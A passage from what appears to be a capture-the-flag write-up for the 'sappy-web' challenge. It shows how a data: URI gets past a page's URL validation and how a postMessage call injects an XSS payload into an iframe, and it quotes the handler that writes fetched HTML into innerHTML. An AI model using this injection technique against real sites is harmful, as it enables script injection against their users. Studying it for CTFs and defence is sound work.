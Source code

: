 Result:

```
sap.js:391 
       GET data://sappy-web.2024.ctfcompetition.com/sap/ net::ERR_INVALID_URL
(anonymous) @ sap.js:391
postMessage
(anonymous) @ VM10004:1
sap.js:391 
       Uncaught (in promise) TypeError: Failed to fetch
    at sap.js:391:316
```

This is a success, this means we bypasses the URL validation because it didn't return "invalid host".

Next we need to append our XSS payload to the URL so that when the event is called our payload will be uploaded to the iframe box.

The postMessage:

```
iframe.contentWindow.postMessage(JSON.stringify({ method: 'render', page: ',{"html":"<img src=x onerror=alert()>"}'}),'*')
```

The above results in a url of:

```
data://sappy-web.2024.ctfcompetition.com/sap/,{"html":"<img src=x onerror=alert()>"}
```

Based on the format of data: URI schemes, the data portion following the comma is directly sent as the response of the fetch request. The payload needs the JSON format with the "html" key because the event listener normally expects a json file with objects that have an "html" name within.

The check for JSON and html key:

```
case "render": {
        if (typeof data.page !== "string") return;
        const url = buildUrl({
          host: API.host,
          page: data.page,
        });
        const resp = await fetch(url);
        if (resp.status !== 200) {
          console.error("something went wrong");
          return;
        }
        const json = await resp.json();
        if (typeof json.html === "string") {
          output.innerHTML = json.html;
        }
        break;
      }
```
